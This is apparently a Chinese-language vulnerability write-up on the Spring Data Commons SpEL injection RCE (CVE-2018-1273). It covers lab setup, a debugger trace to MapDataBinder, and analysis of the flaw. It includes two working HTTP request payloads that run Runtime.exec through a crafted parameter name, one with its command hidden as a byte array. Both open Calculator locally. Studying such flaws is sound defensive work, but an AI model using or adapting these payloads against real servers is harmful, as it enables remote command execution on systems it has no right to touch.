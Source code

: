 ```yaml
---
title: Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）分析
description: 承接上两篇，学习了一下Spring框架以后，分析一下Spring的一些历史漏洞，这篇分析Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）
categories:
 - 漏洞分析
tags:
 - 漏洞分析
---
```


### 0x00 环境搭建和漏洞复现
首先从官网Demo中搭建环境

```
$ git clone https://github.com/spring-projects/spring-data-examples.git  # 官方仓库
$ git reset --hard ec94079b8f2b1e66414f410d89003bd333fb6e7d  # 回退到一个库版本计较旧的版本
```

然后用IDEA倒入Maven项目，等待它自动构建完成

然后运行`web/example`目录下的Application，访问本机端口有返回即可，IDEA会显示一些错误，不影响运行

burp发送请求包

```
POST /users HTTP/1.1
Host: 192.168.0.145:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8080/users
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
Connection: close
Upgrade-Insecure-Requests: 1

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")]=
```

![0-1](https://milkfr.github.io/assets/images/posts/2019-11-17-analysis-spring-data-commons-rce/0-1.png)

### 0x01 漏洞分析
这个程序的入口非常好找，直接在`example.user.web.UserController`里打断点就可以

```
@Controller
@RequiredArgsConstructor
@RequestMapping("/users")
class UserController {
	@ModelAttribute("users")
	public Page<User> users(@PageableDefault(size = 5) Pageable pageable) {
		return userManagement.findAll(pageable);
	}
}
```

之后就是不断的step over，在弹出计算器的一步stop into

不断循环，有耐心就能找完调用栈

![1-1](https://milkfr.github.io/assets/images/posts/2019-11-17-analysis-spring-data-commons-rce/1-1.png)

最后定位到的是`org.springframework.data.web.MapDataBinder$MapPropertyAccessor`的`setPropertyValue`里的`expression.setValue(context, value)`，其实之后还可以继续debug，但是到这一步就没什么必要里

之前的步骤也没有看到什么特殊的地方，看来只是对Request进行上下文绑定的整个过程

```
class MapDataBinder extends WebDataBinder {
    private static class MapPropertyAccessor extends AbstractPropertyAccessor {
        // 省略
        public boolean isWritableProperty(String propertyName) {
            try {
                return this.getPropertyPath(propertyName) != null;
            } catch (PropertyReferenceException var3) {
                return false;
            }
        }
        public void setPropertyValue(String propertyName, @Nullable Object value) throws BeansException {
            if (!this.isWritableProperty(propertyName)) {
                throw new NotWritablePropertyException(this.type, propertyName);
            } else {
                StandardEvaluationContext context = new StandardEvaluationContext();
                context.addPropertyAccessor(new MapDataBinder.MapPropertyAccessor.PropertyTraversingMapAccessor(this.type, this.conversionService));
                context.setTypeConverter(new StandardTypeConverter(this.conversionService));
                context.setRootObject(this.map);
                Expression expression = PARSER.parseExpression(propertyName);
                PropertyPath leafProperty = this.getPropertyPath(propertyName).getLeafProperty();
                TypeInformation<?> owningType = leafProperty.getOwningType();
                TypeInformation<?> propertyType = leafProperty.getTypeInformation();
                propertyType = propertyName.endsWith("]") ? propertyType.getActualType() : propertyType;
                if (propertyType != null && this.conversionRequired(value, propertyType.getType())) {
                    PropertyDescriptor descriptor = BeanUtils.getPropertyDescriptor(owningType.getType(), leafProperty.getSegment());
                    if (descriptor == null) {
                        throw new IllegalStateException(String.format("Couldn't find PropertyDescriptor for %s on %s!", leafProperty.getSegment(), owningType.getType()));
                    }

                    MethodParameter methodParameter = new MethodParameter(descriptor.getReadMethod(), -1);
                    TypeDescriptor typeDescriptor = TypeDescriptor.nested(methodParameter, 0);
                    if (typeDescriptor == null) {
                        throw new IllegalStateException(String.format("Couldn't obtain type descriptor for method parameter %s!", methodParameter));
                    }

                    value = this.conversionService.convert(value, TypeDescriptor.forObject(value), typeDescriptor);
                }

                expression.setValue(context, value);
            }
        }
        private PropertyPath getPropertyPath(String propertyName) {
            String plainPropertyPath = propertyName.replaceAll("\\[.*?\\]", "");
            return PropertyPath.from(plainPropertyPath, this.type);
        }
    }
} 
```

最后的这个方法，只有对name进行了一次`isWritableProperty`校验参数名，实际上调用了`getPropertyPath`方法

![1-2](https://milkfr.github.io/assets/images/posts/2019-11-17-analysis-spring-data-commons-rce/1-2.png)

可以看到正则是把`[]`内的东西去掉，因此只留下了username，但是这里只是做判断，并没有对原来的参数过滤，接下来就用原来的参数名进行SpEl进行解析，解析成功就命令执行了

到这里分析结束

### 0x02 总结
框架本身就是允许`param_name[SpEL expression]`的方式执行SpEL表达式，还做了特殊处理，所以只有作者为什么要允许这样做很奇怪，感觉没有什么必要这里专门增加灵活性

网上的PoC`#this.getClass().forName("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")`利用的SpEL表达式上下文，其实没必要，没有和Struts2对OGNL一样的过滤，可以直接用常用直接调用进程的方式触发命令执行

类似如下

```
POST /users HTTP/1.1
Host: 192.168.0.145:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8080/users
Content-Type: application/x-www-form-urlencoded
Content-Length: 232
Connection: close
Upgrade-Insecure-Requests: 1

username[T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{111,112,101,110,32,47,83,121,115,116,101,109,47,65,112,112,108,105,99,97,116,105,111,110,115,47,67,97,108,99,117,108,97,116,111,114,46,97,112,112}))]=
```